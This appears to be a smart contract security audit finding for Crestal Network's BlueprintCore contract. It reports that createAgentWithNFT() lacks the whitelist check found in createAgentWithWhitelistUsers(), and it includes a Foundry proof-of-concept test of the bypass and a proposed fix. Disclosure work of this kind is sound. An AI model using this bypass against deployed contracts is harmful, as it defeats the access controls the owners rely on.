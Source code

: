 Soaring Caramel Dragon

Medium

# Incomplete whitelist implementation in `BlueprintCore` allows bypass of agent creation restrictions

### Summary

Inconsistent whitelist validation across agent creation functions in `BlueprintCore` causes a complete bypass of whitelist restrictions as non-whitelisted users can create agents through alternative functions.

### Root Cause

The `BlueprintCore.sol::createAgentWithWhitelistUsers()` function implements whitelist checks, but identical functionality is available through `BlueprintCore::createAgentWithNFT()` without any whitelist validation.

Here is the `createAgentWithWhitelistUsers()` function:
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L521-L538

Here is the `createAgentWithNFT()` function which has the exact same functionality except for the whitelist check:
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L510-L519

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. Non-whitelisted user attempts to call `BlueprintCore::createAgentWithWhitelistUsers()` and transaction reverts
2. Same user bypasses restriction by calling `BlueprintCore::createAgentWithNFT()` with identical parameters
3. Agent is created successfully despite user not being whitelisted

### Impact

The entire whitelist system becomes ineffective, breaking a core access control mechanism:
1. Any user with a valid NFT can create agents without being whitelisted
2. Whitelisted users can create unlimited agents instead of being restricted to one

### PoC

Create a new test case in `test/BlueprintCoreWhitelist.t.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {MockERC721} from "./MockERC721.sol";

contract BlueprintCoreWhitelistTest is Test {
    BlueprintV5 blueprint;
    MockERC721 public mockNFT;

    address nonWhitelistedUser = address(0x1);

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize();
        mockNFT = new MockERC721();
        blueprint.setNFTContractAddress(address(mockNFT));
    }

    function test_whitelistBypass() public {
        uint256 validTokenId = 1;
        mockNFT.mint(nonWhitelistedUser, validTokenId);

        bytes32 projectId = keccak256("test-project");

        // user is not whitelisted
        vm.startPrank(nonWhitelistedUser);

        vm.expectRevert("User is not in whitelist");
        blueprint.createAgentWithWhitelistUsers(projectId, "base64Proposal", address(0), "url", validTokenId);

        // By pass whitelist
        blueprint.createAgentWithNFT(projectId, "base64Proposal", address(0), "url", validTokenId);

        bytes32 createdProjectId = blueprint.getLatestUserProjectID(nonWhitelistedUser);
        assertEq(createdProjectId, projectId);

        uint256 validSecondTokenId = 2;
        mockNFT.mint(nonWhitelistedUser, validSecondTokenId);
        bytes32 secondProjectId = keccak256("test-project-2");

        // By pass whitelist for a second time creating another agent
        blueprint.createAgentWithNFT(secondProjectId, "base64Proposal", address(0), "url", validSecondTokenId);

        bytes32 secondCreatedProjectId = blueprint.getLatestUserProjectID(nonWhitelistedUser);
        assertEq(secondCreatedProjectId, secondProjectId);

        vm.stopPrank();
    }
}
```

Run the test:

```bash
forge test --mt test_whitelistBypass
```

### Mitigation

Move whitelist validation to the internal `createAgent()` function to ensure consistent enforcement across all agent creation methods.